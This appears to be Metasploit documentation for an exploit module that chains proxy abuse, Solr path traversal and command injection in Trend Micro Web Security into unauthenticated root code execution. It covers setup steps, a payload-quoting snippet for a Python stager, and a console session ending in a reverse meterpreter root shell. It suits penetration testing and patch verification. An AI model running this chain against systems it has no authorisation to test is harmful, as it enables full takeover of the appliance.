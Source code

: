 ## Vulnerable Application

This module exploits multiple vulnerabilities together in order to achieve remote code execution in Trend Micro Web Security.
Unauthenticated users can execute a terminal command under the context of the root user.

The specific flaw exists within the `LogSettingHandler` class of administrator interface software. When parsing the `mount_device`
parameter, the process does not properly validate a user-supplied string before using it to execute a system call. An attacker can leverage
this vulnerability to execute code in the context of root. But authentication is required to exploit this vulnerability.

Another specific flaw exists within the proxy service, which listens on port `8080` by default. Unauthenticated users can exploit this
vulnerability to communicate with internal services in the product.

Last but not least a flaw exists within the Apache Solr application, which is installed within the product. When parsing the `file`
parameter, the process does not properly validate a user-supplied path prior to using it in file operations. An attacker can leverage this
vulnerability to disclose information in the context of the `IWSS` user.

Due to a combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the `root` user.

Versions prior to 6.5 SP2 Patch 4 (Build 1901) are affected.

### Vulnerable Application Installation Steps

Trend Micro Web Security is distrubed as an ISO image by Trend Micro.

The following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Web Security Virtual Appliance" and click.
3. Go to **Service Pack** section.
4. At the time of writing this documentation, you must see **IWSVA-6.5-SP2-1548-x86_64.iso** next to Download button.
5. Click to the download button and complete installation of ISO.

[https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso](https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso)

**System settings used for installation:**
- Virtualbox or VMware can be used.
- 8 GB of memory at least.
- 60 GB of disk size at least.

### Why perl wrapper for python stager?

Within the exploit function, you can see a custom Perl wrapper usage for python stager payload. The parameter that contains our payload is
going through escaping (double quotes, backslash, etc) and blacklist checks on the server-side. Most of the cmd payload will not work under
these circumstances.

I love meterpreter <3 Using python dropper, which gives a meterpreter session, with command injection vulnerability requires using a double
quote or Single-Backslash-Single-Single combination.

```
python -c '#{payload.encoded'
"python -c '#{payload.encoded.gsub("'", "'\\\\''")}'"
```

In that specific case, none of these approaches works. The idea is wrapping the python dropper within the perl command that does not
contain any special characters.

## Verification Steps

1. Start `msfconsole`
2. Run `use exploit/linux/http/trendmicro_websecurity_exec`
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable.`
7. Run `exploit`
8. You should get a root shell

## Options

## Scenarios

### Trend Micro Web Security 6.5-SP2_Build_Linux_1852

```
msf5 > use exploit/linux/http/trendmicro_websecurity_exec
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set RHOSTS 192.168.74.31
RHOSTS => 192.168.74.31
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set LHOST 172.31.224.186 
LHOST => 172.31.224.186
msf5 exploit(linux/http/trendmicro_websecurity_exec) > check

[*] Trying to extract session ID by exploiting reverse proxy service
[+] Extracted number of JSESSIONID : 16
[*] Testing JSESSIONID #0 : 132B2651F070E865A646F3ABA681769A
[+] Awesome !!! JESSIONID #0 is active.
[+] 192.168.74.31:8443 - The target is vulnerable.
msf5 exploit(linux/http/trendmicro_websecurity_exec) > run

[*] Started reverse TCP handler on 172.31.224.186:4444 
[*] Trying to extract session ID by exploiting reverse proxy service
[+] Extracted number of JSESSIONID : 16
[*] Testing JSESSIONID #0 : 132B2651F070E865A646F3ABA681769A
[+] Awesome !!! JESSIONID #0 is active.
[*] Exploiting command injection vulnerability
[*] Sending stage (53755 bytes) to 172.31.224.1
[*] Meterpreter session 1 opened (172.31.224.186:4444 -> 172.31.224.1:53061) at 2020-06-18 20:10:29 +0300

meterpreter > shell
Process 40116 created.
Channel 1 created.
sh: no job control in this shell
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root),499(iscan)
sh-4.1#
```

